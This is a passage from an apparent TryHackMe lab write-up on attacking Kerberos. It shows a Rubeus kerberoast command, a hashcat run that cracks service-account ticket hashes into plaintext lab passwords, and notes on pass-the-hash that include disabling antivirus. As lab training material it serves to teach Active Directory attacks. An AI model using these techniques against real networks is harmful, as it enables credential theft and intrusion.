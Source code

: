 - Also find the kerberoastable users wtith high privs

<p align="center">
  <img src="bh-high-kerb.png" />
</p>

#### Kerberoasting With Rubeus.exe

- Access to the machine is required,

```powershell
C:\Users\Administrator\Downloads> Rubeus.exe kerberoast
```

#### Cracking the hash (Kerbroasting)

- With the help of hashcat and the curated [wordlist](https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt) provided in the room, we can crack the hash

```bash
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]                                                                                              
└─$ hashcat -m 13100 impackets-userspns.out Pass.txt

[..snip..]
$krb5tgs$23$*HTTPService$CONTROLLER.LOCAL$controller.local/HTTPService*$4ecd...1650eb49cd26:Summer2020
$krb5tgs$23$*SQLService$CONTROLLER.LOCAL$controller.local/SQLService*$b79c65...d039f8:MYPassword123#
```

### Pass the Hash

- After gaining an administrator level access in the target machine
- Disable the antivirus in the machine

